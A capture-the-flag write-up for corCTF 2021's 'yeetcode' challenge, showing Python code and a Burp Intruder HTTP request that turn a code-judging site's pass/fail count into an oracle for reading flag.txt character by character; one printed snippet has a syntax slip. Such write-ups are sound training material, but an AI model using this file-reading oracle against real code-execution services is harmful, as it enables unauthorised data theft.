 # corCTF 2021

Written by [Balberg Flagg & Service AS](https://ctftime.org/team/152116)
<br>
<br>
![corCTF](https://raw.githubusercontent.com/bf-s/CTF-Writeups/main/corCTF-2021/res/disc_crusader.jpg)

---
## misc/yeetcode
### Task
Brush up on your coding skills and ace your next interview with YeetCode! Flag is at ./flag.txt <br>
[https://yeetcode.be.ax](https://yeetcode.be.ax)

When you go to the website you're met with this task:

> Here's a test of your basic operations.This revolutionary problem will change your thinking forever. Given two integers a and b, create a function f(a, b) so that it sums them. For example, f(2, 3) should return 5, and f(5, 7) should return 12. Write your code in the box below:

The site is in [yeetcode](https://github.com/bf-s/CTF-Writeups/main/corCTF-2021/yeetcode/) 

### Writeup
A note before we begin the writeup; We didn't realize the task had andy files with it. So it may have been better soloutions if we actually read the code.
<br>
We quicly understood that the programming language used in the textbox was python. We tried to just print somthing at first, but understood that we didnt get any output. <br>
We continued to solve the task given at the top of the site in python and got "You passed 10/10 test cases. Congrats!" as output when we ran this script:
```python
def f(a, b):
    return a+b
f(1,6)
```
We then tried to print somthing in the def f before we returned the sum and got "You passed 0/10 test cases.". After some more testing we saw that as long as we solved the task, or at least had a way of solving the task in a script we got a boolean as a returned value with 10 as output when we ran the code with no print commands and the correced returned value. <br>
We then tried to read the flag in python and return the same value "a+b" with 10/10 tests passed. This made us try to set a if statement in the code with the condition testing the n'th caracter in the flag like this:
```python
def f(a, b):
  with open('flag.txt', 'r') as r:
    c= r.read()
  if c[0] == 'c':
    return a+b
  else:
    print('test')
f(1,6)
```
Scince we knew the first char in the flag is "c" this should return 10/10 passed, and it did. We knew we had the soloution, but had too much to do if we did it manually. We ended up using intruder in burpsuite with this POST request.
```
POST /yeetyeet HTTP/1.1
Host: yeetcode.be.ax
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://yeetcode.be.ax/yeet
Content-Type: text/plain;charset=UTF-8
Origin: https://yeetcode.be.ax
Content-Length: 136
Connection: close

def f(a, b):
  with open('flag.txt', 'r') as r:
    c= r.read()
  if c[0] == '§1§':
    return a+b
  else
    print('test')
f(1,6)
```
Where §1§ is a payload list with the characters abcdefghijklmnopqrstuvwxyz1234567890!#-.,{}()-_ with one char on each line. We manually switched the char we were testing in c after each hit and got the flag at last.
Flag:
```
corctf{1m4g1n3_cp_g0lf_6a318dfe}
```
---

